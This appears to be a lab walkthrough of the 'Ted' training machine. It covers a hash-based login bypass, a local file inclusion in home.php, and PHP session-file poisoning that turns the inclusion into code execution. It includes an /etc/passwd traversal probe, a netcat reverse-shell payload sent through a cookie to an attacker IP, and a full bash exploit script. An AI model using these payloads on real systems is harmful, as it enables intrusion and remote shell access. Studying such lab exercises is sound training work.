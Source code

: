 ### Ted - Authenticated Local File Inclusion

Within this walkthrough, I will skip any part not related to the web application exploitation, but for sake of consistency I would briefly explain what (and why) I skip.

#### Intro

Ted is really a simple web application. The application is made of only 5 PHP files, so not even close to be an OSWE-like challenge, but it's really worth to be done for guys doing OSCP and OSCE as well. The vulnerability resides in the authenticated part of the application, which is possible to bypass due to its silly login implementation.

#### Vulnerability Discovery

We'll start looking at the index.php file, which containes just a login form, with a post action to authenticate.php 

```html
<form action="authenticate.php" method="post">
```

##### Authentication Bypass

Reviewing the authenticated.php file, it's possible to see that the login functionality seems to be securely using prepared statements:

```php
<?php
// Prepare our SQL, preparing the SQL statement will prevent SQL injection.
if ($stmt = $con->prepare('SELECT id, password FROM accounts WHERE username = ?')) {
    // Bind parameters (s = string, i = int, b = blob, etc), in our case the username is a string so we use "s"
    $stmt->bind_param('s', $_POST['username']);
    $stmt->execute();
    // Store the result so we can check if the account exists in the database.
    $stmt->store_result();
}

if ($stmt->num_rows > 0) {
    $stmt->bind_result($id, $password);
    $stmt->fetch();
?>
```

However, a very silly mistake is made into checking the user password after fetching:

```php
<?php
if ($_POST['password'] ==  $password) {
            // Verification success! User has loggedin!
    ...
} elseif ($_POST['password'] == "admin") {
            echo "<p>Password hash is not correct, make sure to hash it before submit.</p>";
} else {...}
?>
```

Does that actually mean that the hashed version of admin is the right password?
We can access the database directly on Ted, using the credentials provided in `authenticate.php` below:

```php
$DATABASE_HOST = 'localhost';
$DATABASE_USER = 'user';
$DATABASE_PASS = 'password';
$DATABASE_NAME = 'dbname'
```

Let's firstly see with hash is stored in the database, with the following command:

```bash
mysql -uuser -ppassword dbname -e 'select password from accounts where username="admin";' 2>/dev/null | grep -P "[A-Z0-9]+
```
It seems like a sha256 hash; to confirm that, it sufficient to run the following script directly on Ted:

```bash
#!/bin/bash
# Retrieve the hash from the DB
dbhash=$(mysql -uuser -ppassword dbname -e 'select password from accounts where username="admin";' 2>/dev/null | grep -P "[A-Z0-9]+")
# Generate the sha256 of "admin" in uppercase, to match the case of the DB hash
hash=$(printf admin | sha256sum | awk '{print toupper($1)}')
# Compare the two hashes
if [[ "$dbhash" == "$hash" ]]; then
    echo "TRUE"
else
    echo "FALSE"
fi
```

We can now login successfully, so we can start reviewing the authenticated part of the code. Within the `authenticate.php` file, it is possible to see that just after login the user is redirected to `home.php`.

```php
<?php
if ($_POST['password'] ==  $password) {
    ...
    header('Location: home.php');
```

##### Local File Inclusion

Analysing the `home.php`, we can immediately identify at least two vulnerabilities (there is another one but we will talk about it later):

```php
<?php
1. if (isset($_POST['search'])) {
2.     echo "Showing results for ".$_POST['search'].":";
3.     ...
4. } 
5. include($_POST['search']);
```

* At line 2: The search parameter value is reflected back to the user without any prior validation, potentially resulting in a Cross-Site-Scripting (XSS) (Not really important for this exercise)
* At line 5: The search parameter value is included in the page, allowing us to include a local file. To test it, it's enough to insert in the search box `../../../etc/passwd`, the content of the passwd file will be shown.

##### Exploitation

A small note on PHP LFI to RCE:

>There are multiple ways to achieve RCE from LFI in PHP, to exploit Ted it is necessary to have an understanding on how this process works. There are files
on the filesystem which an attacker can modify even not having direct access to the machine, that are the log files. For example, it is possible to write php code in apache access.log with a crafted request, or to the auth.log with a crafted ssh login attempt, and so on. However, this files are usually not accessible to the www-data user, hence not really usable. For a brief list of all the techniques that can be used to achieve RCE, I would suggest going to the following site: [LFI-RCE](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

So it's only necessary to find the correct file or techinque to use. Luckily, seeing the code make this process fairly easy. Infact, something at the very beginning of the `home.php` file should capture our attention, as for below snippet:

```php
1. <?php
2.    session_start();
3.    if (!isset($_SESSION['loggedin'])) {
4.        header('Location: index.html');
5.        exit();
6.    }
7.    $_SESSION['user_pref'] = $_COOKIE['user_pref']; // Injection point
8. ?>
```

It may not be immediately obvious, aif you don't recall how sessions are maintained in PHP. The `$_SESSION` object, indeed, is stored as a file under a predefined path (in this case `/var/lib/php/sessions/`), and name, that is usually obtainined concatenating the sess_ prefix with the PHPSESSID value (i.e. `sess_0oqh1580kqa1q9s4srsbnue2b0`).

For that reason, as we can control a value in the $_SESSION object, we can use that to inject a PHP payload in the session file.

If we add the cookie `user_pref=<?php system('nc -e /bin/bash 192.168.226.129 443')?>` to our first call to `home.php` after login, and then we inspect the content of the relative session file, it will look like that:

```bash
root@ubuntu:/var/lib/php/sessions# cat sess_hrcagu6l6tdqfunma6ftltkvj3
loggedin|b:1;name|s:5:"admin";id|i:1;user_pref|s:52:"<?php system('nc -e /bin/bash 192.168.226.129 443')?>";
```

Summarising, in order to exploit the application, we'll undertake the following steps:

1. Login into the application
2. Inject a PHP backdoor in the session file
3. Trigger the backdoor with the LFI vulnerability

The completed exploit:

```bash
#!/bin/bash

proxy="-x http://127.0.0.1:8080"
backdoor="user_pref=<?php system('nc -e /bin/bash 192.168.226.129 443')?>"

echo "[+] Logging In";
cookie=$(curl -ksi -X POST -H "Cookie: PHPSSESID=$cookie" --data-binary 'username=admin&password=8C6976E5B5410415BDE908BD4DEE15DFB167A9C873FC4BB8A81F6F2AB448A918'  'http://ted.local/authenticate.php' $proxy | grep 'PHPSESSID' |  awk -F"=" '{print $2}' | tail -n 1 | awk -F";" '{print $1}')
sleep 1
echo "[+] Injecting Backdoor";
curl -ksi -X GET 'http://ted.local/home.php' -H "Cookie: PHPSESSID=$cookie; $backdoor" $proxy &>/dev/null
echo "[+] Getting evil shell..";
sleep 1
curl -ksi -X POST -H "Cookie: PHPSESSID=$cookie; $backdoor" --data-binary "search=../../../var/lib/php/sessions/sess_$cookie" 'http://ted.local/home.php' $proxy &>/dev/null
echo "[+] Done!";
```

#### Conclusions

Ted was somehow a funny machine, however, the small number of files to analyse, and the lack of complexity within the code, made it not enough of a challenge comparing it to the OSWE. 
